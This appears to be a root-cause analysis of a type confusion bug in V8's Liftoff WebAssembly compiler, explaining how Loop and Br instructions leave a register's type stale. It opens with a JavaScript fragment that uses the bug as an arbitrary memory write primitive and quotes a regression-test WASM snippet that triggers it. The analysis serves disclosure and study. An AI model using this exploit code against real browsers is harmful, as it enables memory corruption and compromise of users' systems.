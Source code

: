 ```js
let instance = builder.instantiate({m:{globalLoopCounter, globalLowerAddr, globalUpperAddr, globalWriteValue, dummyFunc}});
// writing value 0x12345678 to address 0xdeadbeef'13371337 + 7
instance.exports.main(intToFloat32(0xdeadbeef), intToFloat32(0x13371337), intToFloat32(0x12345678));
```

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?** No

## The Vulnerability

**Bug class:** Type Confusion

**Vulnerability details:** 

During WASM module compilation Liftoff compiler is used to generate native code for WASM functions.
Liftoff code generation procedure maintains a state ([code](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/wasm/baseline/liftoff-assembler.h;l=111;drc=3b0638107e9b1466362547e6478a54f9c66994b5), [description](https://v8.dev/blog/liftoff#code-generation-in-liftoff)) which describes current set of variables presented (variables could be presented on stack or registers) and their types. 
Each basic block (e.g. function or some instructions) might use current state, create a new state or "back merge" previous state. 

There are instructions "Loop" and "Br" which are in combination with proper state "layout" could be used to create a new state [1], update it [2], merge it [3] and reuse it inside of a loop [4] in a way that variable which has been stored in register will be changed without update of its type.    

Consider following snippet from [regress test](https://source.chromium.org/chromium/chromium/src/+/main:v8/test/mjsunit/regress/wasm/regress-360700873.js):

```js

let $sig2 =
    builder.addType(makeSig([], [kWasmF32, kWasmF32, kWasmF64, kWasmFuncRef]));

let $sig3 = builder.addType(
    makeSig([kWasmExternRef, kWasmF32, kWasmF32, kWasmF64, kWasmFuncRef], []));
// $sig3 describes part of the the state, which will hold info about variables with types
// extern_ref, float32, float32, float64, func_ref


// ...
    kExprRefNull, kExternRefCode,
    kExprTry, $sig2, // creating a state which will later used in loop
      ...wasmF32Const(0),
      ...wasmF32Const(0),
      ...wasmF64Const(0),
      kExprRefNull, kFuncRefCode,
    kExprEnd,

    kExprLoop, $sig3, // [1], state inside of a loop is [f64:s0x28, ref null:rax, f32:s0x34, f32:s0x38, f64:s0x40, ref null:s0x48]

      kExprCallFunction, a0, // [4] during loop execution there is a variable in rax, but its content will be modified after first iteration
    
      kExprDrop, // [2] instructions below modify state 
      kExprDrop,    
      kExprDrop,
      kExprDrop,
      kExprI64Const, 0,
      kExprRefNull, kExternRefCode, 
      ...wasmF32Const(30),
```